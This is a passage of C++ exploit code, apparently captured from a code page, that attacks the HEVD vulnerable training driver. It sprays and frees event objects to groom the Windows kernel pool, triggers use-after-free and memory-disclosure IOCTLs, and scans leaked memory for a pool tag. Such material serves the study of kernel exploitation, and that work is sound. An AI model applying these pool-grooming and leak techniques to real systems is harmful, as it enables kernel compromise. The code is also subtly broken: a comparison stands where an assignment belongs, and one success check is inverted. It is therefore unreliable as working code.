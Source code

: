 ```cpp
			for (unsigned int z = 0; z < 5000; z++) {
				if (Events[z] != NULL) {
					CloseHandle(Events[z]);
					Events[z] = NULL;
				}
			}
			return -1;
		}
	}

	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 == 0) {
			CloseHandle(Events[i]);
			Events[i] == NULL;
		}
	}

	for (unsigned int h = 0; h < 2500; h++) {
		if (DeviceIoControl(hFile, 0x222053, nullptr, 0, nullptr, 0, &lpBytesReturned, nullptr)) {
			printf("\n[!] Error calling \"HEVD_IOCTL_ALLOCATE_UAF_NON_PAGED_POOL_NX\"\n");
			getchar();
			for (unsigned int u = 0; u < 5000; u++) {
				if (Events[u] != NULL) {
					CloseHandle(Events[u]);
					Events[u] = NULL;
				}
			}
			return -1;
		}
	}

	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 != 0) {
			CloseHandle(Events[i]);
			Events[i] == NULL;
		}
	}

	for (unsigned int j = 0; j < 2000; j++) {

		if (kernel) {
			break;
		}

		if (!DeviceIoControl(hFile, 0x22204F, nullptr, 0, &pOutBuffer, sOutBuffer, &lpBytesReturned, nullptr)) {
			printf("\n[!] Error calling \"HEVD_IOCTL_MEMORY_DISCLOSURE_NON_PAGED_POOL_NX\"\n");
			getchar();
			for (unsigned int u = 0; u < 5000; u++) {
				if (Events[u] != NULL) {
					CloseHandle(Events[u]);
					Events[u] = NULL;
				}
			}
			return -1;
		}
		
		memcpy(&tag, (DWORD*)((byte*)pOutBuffer + 0x70 + 4), sizeof(UINT32));
		if (tag == *(DWORD*)"Hack" /*tag == 0x6B636148*/) {
			printf("\nHEVD module found: \"%c%c%c%c\"\n", ((char*)&tag)[0], ((char*)&tag)[1], ((char*)&tag)[2], ((char*)&tag)[3]);
```